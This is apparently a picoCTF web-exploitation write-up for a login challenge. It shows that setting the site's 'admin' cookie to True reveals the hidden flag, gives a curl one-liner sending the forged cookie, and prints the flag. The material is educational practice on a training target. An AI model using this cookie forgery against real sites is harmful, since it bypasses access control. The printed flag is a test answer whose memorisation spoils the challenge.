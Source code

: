# Overview 
Category: [Web Exploitation]()

AUTHOR: BOBSON

# Description
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? https://jupiter.challenges.picoctf.org/problem/13594/ (link) or http://jupiter.challenges.picoctf.org:13594

# Solution
- I try input username=test  & password=test
- That there is three cookies:
    A cookie named admin with the value False
    A cookie named username with the value test
    A cookie named password with the value test
- Edit the admin cookie's value and set it to True and then reload the web page (press F5). Now the web page displays the flag.
- If you want to automate the retrieval of the flag you can use curl like this:
```bash
$ curl --cookie "admin=True" https://jupiter.challenges.picoctf.org/problem/13594/flag | grep -oE 'picoCTF{.*}'
picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}
```
